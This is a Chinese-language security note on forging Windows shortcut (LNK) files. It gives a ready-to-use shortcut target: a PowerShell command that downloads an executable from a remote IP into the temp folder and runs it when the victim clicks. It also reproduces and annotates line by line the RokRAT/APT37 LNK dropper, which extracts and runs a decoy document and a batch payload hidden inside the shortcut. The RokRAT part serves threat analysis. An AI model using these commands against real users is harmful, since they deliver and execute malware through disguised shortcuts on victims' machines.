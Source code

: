 # LNK伪造

> [疑似BITTER组织利用LNK文件的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s/TbiXJ359ZXOyQYWsfVDwGA)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)

新建一个快捷方式然后修改目标为如下信息:

```cmd
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iwr http://100.1.1.131:8000/download/local/Code.exe -outfile $env:TEMP\Code.exe;start-process $env:TEMP\Code.exe
```

![image-20240626114316470](http://cdn.ayusummer233.top/DailyNotes/202406261143196.png)

当受害者点击该快捷方式后则会调起powershell下载恶意程序并执行上线shell

![image-20240626114445251](http://cdn.ayusummer233.top/DailyNotes/202406261144336.png)

---

## APT

### ROKRAT

> [RokRAT（恶意软件家族） --- RokRAT (Malware Family) (fraunhofer.de)](https://malpedia.caad.fkie.fraunhofer.de/details/win.rokrat)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)
>
> [安全星图平台 (dbappsecurity.com.cn)](https://starmap.dbappsecurity.com.cn/blog/articles/2023/04/27/apt37-rokrat/)
>
> [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> [猎影追踪：APT37利用朝鲜政治话题针对韩国的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA%3D%3D&mid=2247496455&idx=1&sn=0e3af7d734671a41c9d796e7f33b085d&chksm=f9ed9fb8ce9a16ae8e9714f116e0812994e0e3d13eb75d05182e623372fc5b979d70cf403f39&scene=178&cur_album_id=1375769135073951745)

```cmd
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden $dirPath = Get-Location; if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; $pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
^& $pdfPath; $exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; $exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; ^& $exePath;
```

```powershell
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden 
# 获取当前路径
$dirPath = Get-Location; 
# 如果当前路径包含system32或者Program Files，则将 dirPtah 设置到临时目录
if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};
# 获取 dirPath 下文件大小为0x0001DAB452的
$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;
# Get-Contet 一次性获取 Lnkpath 对应文件开头的 65446 字节 存储到 $pdfFile
$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; 
$pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; 
# Set-Content 跳过 $pdfFile 的前 2470 字节将剩余内容 写入到 $pdfPath
sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
# 运行 $pdfPath
^& $pdfPath; 
# 一次性获取 Lnkpath 对应文件开头的 68696 字节 存储到 $exeFile
$exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; 
$exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; 
# Set-Content 跳过 $exeFile 的前 65446 字节将剩余内容 写入到 $exePath
sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; 
# 运行 $exePath
^& $exePath;
```

具体分析可以参阅 [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---





